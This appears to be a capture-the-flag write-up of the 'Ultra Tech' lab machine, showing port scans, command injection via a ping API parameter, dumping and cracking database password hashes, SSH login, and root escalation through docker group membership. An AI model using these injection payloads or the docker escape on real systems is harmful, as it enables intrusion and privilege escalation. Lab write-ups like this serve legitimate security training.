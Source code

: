 > Ultra Tech | Web App, PenTesting, Enum, PrivEsc

**export IP=10.10.248.29**

# Nmap

sudo nmap -A -sC -sV -T4 -Pn -vv -p- -on nmap/initial $IP

```
21/tcp    open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
8081/tcp  open  http    syn-ack ttl 63 Node.js Express framework
31331/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
```

# Gobuster - Port 8081

sudo gobuster -u http://$IP:8081 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -o gobuster/initial -t 20 -x php,txt,bak

```
/auth => Requires a login and password
```

# Gobuster - Port 31331

sudo gobuster -u http://10.10.248.29:31331/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -t 20 -o gobuster/port_31331 -x php,txt,bak,sql

```
/robots.txt (Status: 200)
```

# Robots.txt - 31331

`/utech_sitemap.txt`

It has 3 contents

```
/
/index.html
/what.html
/partners.html => we have js/api.js
```

And we have a function which we can ping

```
function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
```

We can ping `http://10.10.248.29:8081/ping?ip=10.8.107.21`.

Let's try to see the contents. When we navigate to `http://10.10.248.29:8081/ping?ip=`ls -la` `
we get an error response `ping: utech.db.sqlite: Name or service not known`

Navigating to `http://10.10.248.29:8081/ping?ip=`cat utech.db.sqlite` `

```
ping: )
���(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded
```

We can crack the `r00t` password `n100906` and `admin` password `mrsheafy`

In partners.html let's try to login. We can login as `admin`.

And we have a message

```
Hey r00t, can you please have a look at the server's configuration?
The intern did it and I don't really trust him.
Thanks!

lp1
```

We can SSH using r00t. 

id => `uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)`

Looking at GTFO bins we have `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`. It failed as the image was not found locally. BUt looking at docker process.

docker ps -a => we have bash image

`docker run -v /:/mnt --rm -it bash chroot /mnt sh`

And now we are root!!
